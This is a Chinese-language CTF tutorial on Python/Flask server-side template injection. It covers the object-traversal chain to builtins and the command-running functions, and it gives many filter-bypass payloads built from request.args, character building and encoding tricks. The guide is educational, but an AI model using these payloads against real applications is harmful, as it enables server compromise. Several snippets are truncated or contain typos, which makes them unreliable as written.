

0x1关于ssti的讲解
1.什么是ssti?
SSTI就是服务器端模板注入(Server-Side Template Injection).在一般的ctf中主要考查python比较多，故这篇文章主要是分析python下的ssti。
2.ssti出现的原因
ssti起因是在通过与服务端模板的输入输出交互时,服务器端把用户提交的数据处理,当成了代码来执行.从而让恶意用户通过构建了恶意代码,来读取了服务器上的信息或得到了服务器的shell.例如：在python的flask中，会把{ { } }号里面的参数当成代码来执行，如{ {1+1} }会被执行成为{ {2} }。
3.ssti漏洞的发现
对目标机构造payload来分析，如{ {7+7} }，{ {'7'+'7'} }等。看是否有ssti。再参考下图分析是何种模板的ssti

0x2python基础
01.python魔术方法
由于python的语法一贯奉行“一切皆是对象”的原则，所以python的一切变量都由类实例而来同时python有很多管理这些类与对象的内置魔术方法或函数。下面介绍几个常用的与类有关的魔术方法。
1 | 1） __class__ |
02.文件操作和命令执行相关的python模块
1)builtins模块
是python的一个内置函数所在模块,里面的函数无需import就能访问。
eval()
执行1句简单的python代码，并返回结果。
exec()
执行多句python代码，但返回值永远为None。
open()
打开一个文件
2）os模块
该模块提供了一些方便使用操作系统相关功能的函数。这主要说与文件操作和命令执行相关的函数
os.system (cmd)
执行操作系统(shell)命令，若执行成功返回值为0。
os.popen(cmd) .read()
os.popen()函数可以用来执行操作系统(shell)命令。通过read()函数来读取返回结果。除此外还有so.popen2(),so.popen3().
os.open(filename)
可以用来打开读取文件。
3)platform模块
python中，platform模块给我们提供了很多方法去管理操作系统。
platform.popen(cmd, mode=’r’, bufsize=None)
platform.popen函数可以用来执行操作系统(shell)命令。但与os.popen()函数通类似过read()函数来读取返回结果。
4)timeit 模块
模块中的timeit.timeit() 本是检测性能的，也可以任意代码执行。但是没有回显。用法如timeit.timeit(“import(‘os’).system(cmd)”,number=1)
5)commands模块
commands模块只存在于Python 2.7中，且不支持windows平台，因此commands模块很少被使用。另外，commands模块实际上也是通过对os.popen()的封装来完成的。
commands.getoutput(cmd)
接收字符串格式的命令，执行命令并返回执行结果。
commands.getstatusoutput(cmd)
执行cmd命令，返回一个元组(命令执行状态,命令执行结果输出)。
6)subprocess模块
subprocess 模块允许你生成新的进程，连接它们的输入、输出、错误管道.此模块打算代替一些老旧的模块与功能如：os模块、commands模块等。
subprocess.run(cmd)
Python 3.5版本以后才有的函数。执行指定的命令，等待命令执行完成后返回一个包含执行结果的CompletedProcess类的实例
subprocess.call(cmd,shell=True)
执行由参数提供的命令。我们可以用数组作为参数运行命令，也可以用字符串作为参数运行命令(通过设置参数shell=True)如果执行成功则返回状态码。
subprocess.check_call(cmd)
执行指定的命令，如果执行成功则返回状态码，否则抛出异常.
subprocess.check_output(cmd)
执行指定的命令，如果执行成功则返回结果，否则抛出异常.
subprocess.getstatusoutput(cmd)
执行cmd命令，返回一个元组(命令执行状态,命令执行结果输出)。
subprocess.getoutput(cmd)
接收字符串格式的命令，执行命令并返回执行结果。
03.一些提高效率的函数
1.index()
检查字符串是否包含某个字符或字符串。还有可以用来查询列表里是否有某个元素。若春在则返回第一次出现时的下标或索引。ps：当参数有.符号时可能出现该函数查不出来但存在的现象（解析逻辑问题）
2.keys()
将键的单独提取成一个列表。在某些过滤了中括号的情况下与index()用来代替中括号的效果。
04.关于flask
flask由 Jinja2 模板开发而来的web框架。缺省情况下，以下全局变量可以在 Jinja2 模板中使用，同时也值得我们关注：
1) config
获取当前配置对象（ flask.config ）,可以得到些配置信息(有点类似php中phpinfo的作用).比如:是否打开session,SECRET_KEY(python默认的session加密方式的密钥）的值。
在 version 0.10后,这个变量总是可用，甚至是在被导入的模板中。
这个对象是在 version 0.6. 后才有的.
2)request
获取请求对象（ flask.request ）。 在没有活动请求环境情况下渲染模板时，这个变量不可用。
3)session
获取当前会话对象（ flask.session ）。 在没有活动请求环境情况下渲染模板时，这个变量不可用。
4)g
请求绑定的全局变量（ flask.g ）。在flask中，有一个专门用来存储用户信息的g对象，g的全称的为global。g对象在一次请求中的所有的代码的地方，都是可以使用的。 在没有活动请求环境情况下渲染模板时，这个变量不可用。
5)url_for()
flask.url_for() 函数。url_for() 会返回传入的路由函数对应的URL，所谓路由函数就是被 app.route() 路由装饰器装饰的函数。如果我们定义的路由函数是带有参数的，则可以将这些参数作为命名参数传入。
6)get_flashed_messages()
flask.get_flashed_messages() 函数。返回之前在Flask中通过 flash() 传入的信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出。
0x3ssti注入的一般攻击流程
1.找到环境中的可以使用的环境变量,例如:内置函数方法（url_for()函数、get_flashed_messages()函数）、内置类的实例变量(‘’,[]，config，self)。
2.若已得到内置函数方法则跳第4步骤，从内置类的实例变量方向出发的通过类的关系通过__class__、__base__ or __mro__找到基本类（object类）.注意：python2与python3这步有的差别。
1 | #python 2: |
3.通过__subclasses__()获取所有object类的子类，并用 __dict__从中寻找类其拥有的方法。
1 | ''.__class__.__mro__[-1].__subclasses__() |
4.通过__globals__或func_globals得到的方法所在空间的所有类、属性、子模块与方法。例如：
1 | url_for.func_globals |
5若上一步返回的结果里有需要的方法就可以直接调用;若想调用内置库的函数用builtins ;若想调用第三方库（模块）可以继续用import载入:
1 | #若上一步返回的结果里有需要的方法就可以直接调用; |
0x4常见绕过方式
1)过滤中括号
__getitem__方法，该方法用来获取指定索引对应的元素。例如：
1
2
3''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(40)
''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(79).__init__.__globals__.__builtins__.__getitem__('ord')
#这个操作对字典与列表都适用来获取
__mro__所得元组的最后一个元素和__subclasses__()返回的列表里的索引为40的元素。对于列表来,pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。我们可以用pop() 来代替中括号。里使用pop并不会真的移除,但却能返回其值,取代中括号,来实现绕过。例如
1
2''.__class__.__base__.__subclasses__().pop(40)
#这个只能用于列表来获得
__subclasses__()返回的列表里的索引为40的元素。对于字典来说,可以用’.’号来代替.在flask中的
号里’.’号有代替[ ]对字典进行索引读取的作用.例如:1
2''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(79).__init__.__globals__.__builtins__.ord
#这个只能用于字典来获得
__builtins__返回的列表里的索引为’ord’的元素。
2)过滤双下划线
request.args 是flask中的一个属性,为返回请求的参数,这里自己设置一个变量名,将后面的路径传值进来,进而绕过了’_’的过滤.
例如：
1
{{""[request.args.class][request.args.x1][request.args.x2][request.args.x3]()[40]}}?class=__class__&x1=__base__&x2=__base__&x3=__subclasses__
通过自己设置变量class、x1、x2、x3来传递参数从而绕过。
同request.args，request.values也有类似的作用，不过要利用post的方式进行传参。
在
dir()没有被ban下可以用dir(0)[0][0]来引入’_’.例：
1
2''[dir(0)[0][0]+dir(0)[0][0]+'class'+dir(0)[0][0]+dir(0)[0][0]]
#等价于''.__class__（PS：在url中'+'号最好要编码成%2b！！！）
利用格式化字符串特性。用
'{0:c}'['format'](95)或"%c"%(95)以
''.__class__例:1
{{''['{0:c}'['format'](95)+'{0:c}'['format'](95)+'class'+'{0:c}'['format'](95)+'{0:c}'['format'](95)]}}
3)过滤了’.’号
用中括号来代替。
例：
1
''['__class__']等价于''.__class__
用
__getattribute__函数来代替1
''.__getattribute__('__class__')
用
attr()函数来代替例：
1
''['__class'__]等价于''|attr('__class__')
4)关键词字符过滤
利用字符串特性将关键词拆绕过。
例：
1
2
3
4
5''['__cl'+'ass__']等价于''.__class__
#（PS：在url中'+'号最好要编码成%2b！！！）
''.__getattribute__('__cla'+'ss__')
#（PS：在url中'+'号最好要编码成%2b！！！）
''['__class'__]等价于''|attr('__cla'+'ss__')在
dir()或__dir__()没有被ban下利用dir()或__dir__()返回值进行拼接。1
2
3
4
5
6
7''[''.__dir__()[0][0]+''.__dir__()[0][0]+''.__dir__()[18][2]+''.__dir__()[4][2]+''.__dir__()[1][3]+''.__dir__()[2][2]+''.__dir__()[2][2]+''.__dir__()[0][0]+''.__dir__()[0][0]]
#在我的环境中，等价于__class__
#''.__dir__()[0][0]=='_'
#''.__dir__()[18][2]==‘c’
#''.__dir__()[4][2]=='a'
#''.__dir__()[1][3]=='l'
#''.__dir__()[2][2]=='s'
‘%c’.format()与’{0:c}’.format()拼接。
1
2{{""['{0:c}'['format'](95)%2b'{0:c}'['format'](95)%2b'{0:c}'['format'](99)%2b'{0:c}'['format'](108)%2b'{0:c}'['format'](97)%2b'{0:c}'['format'](115)%2b'{0:c}'['format'](115)%2b'{0:c}'['format'](95)%2b'{0:c}'['format'](95)]}}等价于''.__class__
#（PS：在url中'+'号最好要编码成%2b！！！）
进行decode解编码绕过。
例:1.进行base64处理
__class__1
''['X19jbGFzc19f'.decode('base64')]
例:2.进行16进制处理
__class__1
''['5f5f636c6173735f5f'.decode('hex')]
例:3.进行rot13 编码处理
__class__1
''['__pynff__'.decode('rot13')]
利用request.args，request.values进行传参.
1
{{""[request.args.class][request.args.x1][request.args.x2][request.args.x3]()[40]}}?class=__class__&x1=__base__&x2=__base__&x3=__subclasses__
若’.’也被过滤可以用’[]’套娃方式代替
1
{{""[request['args']['c']]}}?c=__class__
利用全角符号来绕过字母过滤(大多数非字母字符不能绕过,python3环境?)
1
2
3
4
5
6
7
8
9
10
11
12ｏｐｅｎ
<function io.open(file, mode='r', buffering=-1, encoding=None, errors=None, newline=None, closefd=True, opener=None)>
＿＿ｉｍｐｏｒｔ
File "<ipython-input-2-78bf7df85c1c>", line 1
＿＿ｉｍｐｏｒｔ
^
SyntaxError: invalid character in identifier
__ｉｍｐｏｒｔ__
<function __import__>7.利用模板渲染编码绕过：（部分版本）
7.1：16进制（
\xXX）绕过。1
''['\x5F\x5F\x63\x6C\x61\x73\x73\x5F\x5F'] #''.__class__
7.2：8进制（
\OOO）绕过。1
''['\137\137\143\154\141\163\163\137\137'] #''.__class__
7.3：unicode（
\uXXXXor\UXXXXXXXX）绕过。1
2
3
4\uXXXX:
''['\u005F\u005F\u0063\u006C\u0061\u0073\u0073\u005F\u005F'] #''.__class__
\UXXXXXXXX:
''['\U0000005F\U0000005F\U00000063\U0000006C\U00000061\U00000073\U00000073\U0000005F\U0000005F'] #''.__class__
5)过滤了‘{ {’or‘} }’
可以用{ % % }来代替{ {} }，但要注意两者区别： { {} }是用来变量取值，{ { % % } }是用来控制结构。
1 | {% if '1'=='code' %}lexsD6{% endif %} |
0x0参考文献
1.https://blog.csdn.net/answer3lin/article/details/86572575